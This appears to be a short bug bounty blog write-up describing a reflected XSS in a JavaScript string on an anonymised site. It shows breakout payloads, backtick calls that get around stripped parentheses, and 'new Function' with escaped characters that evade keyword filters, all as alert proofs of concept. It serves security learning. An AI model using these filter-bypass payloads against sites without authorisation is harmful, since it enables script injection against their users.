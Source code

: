 ```yaml
---
layout: post
title: An XSS Story
---
```


Last night I stumbled across an XSS in a bug bounty program, this was quite fun to exploit.

<!--more-->

A little bit of context, the URL was as follows:

{% highlight bash%}
https://bugbounty.program/dir/page.ext?param1=SOMETHING&param2=SOMETHINGELSE
{% endhighlight %}

Going thru the page code we can clearly see a reflection in a javascript tag, around the entry "subject".

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "SOMETHING",
    [...]
}
{% endhighlight %}

Let's try with my favorite test payload `AAAA"<i>'BBBB(1)` and see how the characters are escaped.

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA" 'BBBB",
    [...]
}
{% endhighlight %}

The tag was stripped but the double quote isn't escaped. We can say goodbye to the infamous `</script><script>alert(1)` payload. Let's try to bypass the filter with a little bit of Javascript magic :D

In JS if we have a string we can try to add a function and it will be executed, a simple alert(1) should do the work. Our payload is now `AAAA"+alert(1)+"BBBB`

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert1+"BBBB",
    [...]
}
{% endhighlight %}

Damn, it seems that our parenthesis were removed, let's try with an alternative way to trigger an alert using the backticks : `AAAA"+alert\`1\`+"BBBB`, this trick works on Firefox and Chrome/Opera in their latest version.

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert`1`+"BBBB",
    [...]
}
{% endhighlight %}

Yay our alert(1) popped :D, let's now imagine more protections, only to do some JS magic.
We can try to `eval()` our `alert()` using the backticks and some escape characters.
What if eval and alert are banned keywords ?
We can still use the `New Function` !

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+new Function`al\ert\`XSS\``+"BBBB",
    [...]
}
{% endhighlight %}

In Javascript we can escape any character and they will be treated as the original character if it doesn't exist.

{% highlight javacript%}
\a = a
\e = e
\l = l
\r = \r because it's a new line
\t = \t because it's a tab
{% endhighlight %}

That's all folks !